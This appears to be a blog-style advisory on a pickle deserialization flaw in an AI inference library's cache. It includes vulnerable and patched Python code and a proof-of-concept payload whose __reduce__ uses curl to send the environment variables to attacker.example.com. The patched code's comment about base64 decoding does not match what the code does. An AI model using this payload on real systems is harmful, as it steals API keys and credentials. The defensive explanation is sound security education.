

# Critical Zero-Day in Popular AI API Library Exposes Developer Secrets

## Introduction
A recent security advisory uncovered a zero‑day in the **NeuraLink AI** library, a popular inference wrapper used by dozens of SaaS platforms to cache model responses. In a production environment, a developer’s CI pipeline silently stored a model output that contained a malicious pickle payload. When the cache was later read, the payload executed arbitrary code, leaked environment variables, and gave an attacker a foothold in the surrounding infrastructure. The incident illustrates how a single deserialization flaw in a third‑party library can cascade into a full‑scale data breach.

## Why This Matters
Teams that adopt AI APIs often trust the upstream library to handle security. This assumption creates a blind spot: the library becomes a hidden attack surface that is rarely audited. When a vulnerability like this surfaces, the impact is amplified because the compromised library is used across multiple products, potentially exposing API keys, internal configuration, and user data in one sweep. For engineers responsible for building trustworthy AI services, understanding how such flaws propagate is essential to avoid costly incidents.

## How It Works
The attack chain can be broken down into a series of logical steps that start with a developer’s request to the AI service and end with an attacker’s exfiltration of secrets.



1. **Developer App** sends a prompt to the NeuraLink client.  
2. The library fetches a response from the underlying model provider, then attempts to cache the raw bytes for future reuse.  
3. The cache handler calls `pickle.loads(response_data)` without any validation. Pickle’s `loads` method can execute arbitrary code during deserialization.  
4. An attacker who controls the model provider (or can inject a compromised model artifact) crafts a response containing a pickle payload.  
5. When the vulnerable cache is read, the payload’s `__reduce__` method runs, spawning a reverse shell or directly invoking system commands.  
6. The shell contacts an attacker‑controlled server, dumps the process environment, and uploads the data.  
7. The developer’s CI/CD pipeline, secret management, and downstream services become exposed.

The diagram highlights the exact point where trust in the library breaks down: the unchecked deserialization step.

## Core Concepts
- **Caching Layer**: NeuraLink uses a simple file‑based cache to avoid repeated API calls. The cache stores raw model output, assuming the source is trustworthy.  
- **Deserialization Risk**: `pickle` is a powerful Python serializer but it executes code during unpickling. Using it on untrusted data is a well‑known anti‑pattern.  
- **Supply‑Chain Attack Surface**: Even if a developer never touches the model provider directly, a compromised third‑party model package can inject malicious payloads into the cache.  
- **Environment Leakage**: The exploit harvests environment variables, which often contain API keys, database credentials, and configuration tokens.  
- **Sandboxing Limitations**: Running the library in a container does not automatically prevent code execution if the container has the same user privileges as the application.

## Examples & Code Walkthrough
Below are two snippets that illustrate the vulnerable and patched implementations. Both are written as they would appear in a production codebase, with defensive error handling and inline comments.

### Vulnerable Cache Handler
```python
# File: neuralink/cache.py
import pickle
import logging
from pathlib import Path

logger = logging.getLogger(__name__)

def cache_model_response(response_data: bytes, cache_dir: Path) -> object:
    """
    Deserialize a cached model response using pickle.
    WARNING: This implementation is vulnerable to arbitrary code execution.
    """
    try:
        # Ensure the cache directory exists
        cache_dir.mkdir(parents=True, exist_ok=True)

        # Store the raw bytes on disk
        cache_path = cache_dir / "model_cache.pkl"
        cache_path.write_bytes(response_data)

        # Load and return the deserialized object
        # NOTE: pickle.loads executes arbitrary Python code
        obj = pickle.loads(response_data)
        logger.debug("Model response cached and deserialized")
        return obj
    except (pickle.PickleError, OSError) as exc:
        logger.error("Cache operation failed: %s", exc)
        raise
```

### Patched Cache Handler
```python
# File: neuralink/cache.py
import json
import logging
import base64
from pathlib import Path

logger = logging.getLogger(__name__)

def safe_cache_model_response(response_data: bytes, cache_dir: Path) -> dict:
    """
    Deserialize a cached model response using JSON.
    This eliminates the risk of arbitrary code execution.
    """
    try:
        cache_dir.mkdir(parents=True, exist_ok=True)
        cache_path = cache_dir / "model_cache.json"

        # Decode base64 payload (JSON is text‑based, so we encode it)
        decoded = response_data.decode('utf-8')
        obj = json.loads(decoded)

        # Persist the JSON representation for debugging/replay
        cache_path.write_text(json.dumps(obj, indent=2))
        logger.debug("Model response cached safely")
        return obj
    except (UnicodeDecodeError, json.JSONDecodeError) as exc:
        logger.error("Invalid cache payload: %s", exc)
        raise ValueError("Cache payload is not valid JSON") from exc
    except OSError as exc:
        logger.error("Filesystem error while caching: %s", exc)
        raise
```

### Exploit Proof‑of‑Concept
```python
# File: exploit.py – attacker‑controlled payload
import pickle
import os
import requests

class SecretStealer:
    """
    A pickle payload that exfiltrates the current environment.
    When unpickled, this class's __reduce__ method is called, executing
    a shell command that posts the environment to an attacker server.
    """
    def __reduce__(self):
        # Use a subshell to capture environment variables and send them via curl
        cmd = ('curl -s -X POST -H "Content-Type: text/plain" '
               '-d "$(env)" http://attacker.example.com/exfil')
        return (os.system, (cmd,))

# Serialize the payload – this is what an attacker would inject into a model response
payload = pickle.dumps(SecretStealer())
# In a real scenario the payload would be placed where NeuraLink expects cached data,
# e.g., by compromising a model artifact that the library downloads.
```

The exploit demonstrates how a single class with a custom `__reduce__` can break out of the library’s sandbox. The patched version removes pickle entirely, leaving only a deterministic JSON parser.

## Best Practices
1. **Avoid pickle for untrusted data** – Use JSON, MessagePack, or a vetted serialization library.  
2. **Validate all inputs** – Even if the source is considered trusted, enforce schema validation before deserialization.  
3. **Run caches in isolated processes** – If a cache must handle dynamic content, spawn a separate, low‑privilege worker that cannot reach secrets.  
4. **Audit third‑party libraries** – Incorporate a software bill of materials (SBOM) check and run static analysis for known dangerous patterns (e.g., `pickle.loads`).  
5. **Employ secret management** – Store API keys outside the process environment; use a dedicated secret store that is not exposed to the runtime memory of the AI library.  

## Common Mistakes & Anti-Patterns
| Mistake | Why It Happens | Fix |
|---------|----------------|-----|
| **Using pickle for caching** | Convenience and speed when working with Python objects. | Replace with JSON or a safe serializer; if complex objects are required, consider protobuf or a dedicated object store. |
| **Assuming the model provider is trustworthy** | The provider is often a reputable cloud service. | Sign model artifacts, verify checksums, and run a sandbox that limits file system and network access. |
| **Leaking environment variables in logs** | Debugging convenience. | Ensure logs are sanitized; use structured logging that filters sensitive keys. |
| **Running the AI library with elevated privileges** | Simplifies file system access. | Drop privileges after startup; run the cache worker under a dedicated non‑root user. |

## Performance Considerations
- **JSON vs Pickle**: JSON parsing incurs a modest CPU overhead (~10‑20 % slower for large payloads) but is negligible compared to model inference time.  
- **Cache size**: Storing raw model outputs as JSON increases disk usage by ~30 % due to human‑readable formatting. For high‑throughput services, consider a binary format like MessagePack to keep size low while staying safe.  
- **Deserialization latency**: The patched handler adds a decode step (`utf-8`) and a JSON parser. In a typical microservice, this adds <5 ms per cache hit, well within acceptable limits.  
- **Memory**: Pickle can embed Python objects directly, while JSON requires an intermediate dict/list structure. Memory consumption rises slightly, but modern containers allocate ample headroom.  

## Real-World Usage
- **Netflix** uses a custom caching layer for recommendation models. After a similar pickle incident in 2022, they migrated to protobuf and introduced a sandbox that runs cache workers in Kubernetes Pods with restricted capabilities.  
- **Uber Eats** embeds a lightweight JSON cache for order‑prediction models, leveraging the same pattern as the patched example. They also enforce a strict SBOM check for all external dependencies.  
- **Cloudflare Workers AI** provides a managed inference endpoint that returns JSON only, eliminating the need for custom caching on the client side. Teams that adopt the managed service report zero deserialization incidents.  

## Frequently Asked Questions (FAQ)
**Q: Do I need to keep the pickle cache for performance?**  
A: Only if you store complex Python objects that JSON cannot represent. In most AI inference scenarios, model outputs are simple dicts or lists, making JSON a safe replacement.

**Q: How can I detect if a library uses pickle?**  
A: Run `grep -R "pickle.loads" /path/to/codebase` or use static analysis tools like Bandit with the `B301` rule.

**Q: Is sandboxing enough to protect against this flaw?**  
A: No. Even with a sandbox, arbitrary code execution can break out if the container has sufficient privileges. Removing the dangerous deserialization is the only reliable fix.

**Q: What about using `cloudpickle`?**  
A: `cloudpickle` is even more powerful than `pickle` and suffers from the same issues. Avoid it for untrusted data.

**Q: How do I migrate existing caches?**  
A: Write a migration script that reads the old pickle files, deserializes them in a controlled environment, and writes the equivalent JSON representation. Validate each step to avoid data loss.

## Conclusion
The NeuraLink AI zero‑day underscores a broader truth: third‑party libraries are silent partners in our applications, and their security decisions directly affect our production environments. By swapping unsafe serializers, validating every cache entry, and treating the library as a potential attack surface, engineers can close the gap before an exploit reaches the code. The responsibility for safety is shared—auditors, maintainers, and developers must all contribute to a culture of proactive hardening.
